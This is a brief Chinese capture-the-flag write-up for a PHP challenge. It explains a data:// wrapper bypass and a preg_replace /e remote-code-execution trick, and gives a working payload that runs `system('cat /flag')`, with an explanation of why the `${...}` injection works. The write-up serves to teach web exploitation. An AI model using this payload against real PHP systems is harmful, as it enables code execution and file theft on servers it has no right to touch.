


# [BJDCTF2020]ZJCTF，不过如此

## Tag

Data 伪协议+preg_replace RCE

***

## Writeup

 [[ZJCTF 2019]NiZhuanSiWei]([ZJCTF 2019]NiZhuanSiWei)  的进阶版，同样还是用 data 协议绕过，并用 base64 读取 next.php 得到：

阅读[相关材料](https://xz.aliyun.com/news/2239)可以构造 Payload：`/next.php?\S*=${getFlag()}&cmd=system('cat /flag');`

***

后记：相关材料内容

上面的命令执行，相当于 `eval('strtolower("\\1");')**` 结果，当中的 `\\1` 实际上就是 `\1` ，而 `\1` 在正则表达式 中指定的是第一个子匹配项，如果 Payload 为 `/?.*={${phpinfo()}}` ，则 GET 方式传入的参数名为 `/?.*` ，值为 `{${phpinfo()}}`，那么原先的语句  `preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);` 变成了语句 ` preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});`

但是由于在 PHP 中，对于传入的非法的 `$_GET` 数组参数名（当非法字符为首字母时），点号会被替换成下划线，这就导致我们正则匹配失效，所以换成 `/?S*=${phpinfo()}`